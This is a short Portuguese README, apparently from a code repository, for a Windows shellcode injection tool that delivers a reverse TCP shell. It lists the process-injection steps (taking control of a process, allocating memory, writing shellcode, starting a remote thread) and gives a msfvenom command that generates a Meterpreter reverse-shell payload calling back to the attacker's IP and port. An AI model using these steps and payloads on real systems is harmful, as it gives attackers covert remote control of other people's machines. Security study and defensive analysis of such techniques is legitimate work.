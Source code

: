 # ShellCode Injection of an Reverse TCP exploit

## Passos de funcionamento
* Obter o controlo de um processo, ou criar um (como se pretende no ficheiro process_injection_paint.cpp);
* Alocar um buffer na memória do processo com as permissões necessárias;
* Escrever o conteúdo do shellcode no buffer alocado na memória do processo;
* Criar uma thread que correrá o que foi alocado e escrito no processo.

## Criar o ShellCode

Para criar o shell code foi usada a framework Metasploit. Com esta framework o shellcode é criado com apenas um comando:

```shell
msfvenom --platform windows --arch x64 -p windows/x64/meterpreter LHOST="o nosso IP" LPORT="porta de acesso" -f c --var-name=shellCode
```